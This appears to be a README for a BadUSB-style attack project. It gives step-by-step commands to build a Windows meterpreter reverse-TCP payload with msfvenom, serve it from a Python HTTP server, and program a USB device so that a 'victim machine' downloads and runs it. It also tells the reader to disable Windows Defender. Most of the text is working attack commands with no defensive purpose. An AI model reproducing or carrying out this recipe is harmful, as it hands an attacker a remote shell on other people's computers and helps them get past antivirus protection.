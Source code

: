 # Metasploit Download

Throughout this tutorial I will refer to `X.X.X.X` and `XXXX`. When you see `X.X.X.X` you should replace it with your IP address. When you see `XXXX` you should replace it with your chosen port. The default hacker port is `4444`.

Please note that Windows Defender will stop this script from running. Windows Defender must be disabled for this script to work.

## Creating Payload

You must have the [metasploit-framework](https://github.com/rapid7/metasploit-framework) in order for this to work. Installed by default in Kali Linux.

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=X.X.X.X LPORT=XXXX -f exe -e cmd/powershell_base64 > winner.exe.b64
```

## Hosting Payload

Must have Python installed in order for this to work. This creates a local server on your device that the victim machine can download from.

```bash
python -m http.server XXXX
```

## Programming USB

Open [metasploit-download.ino](metasploit-download.ino), go to line 24 and insert your IP address and port. Then upload your script to the USB. 

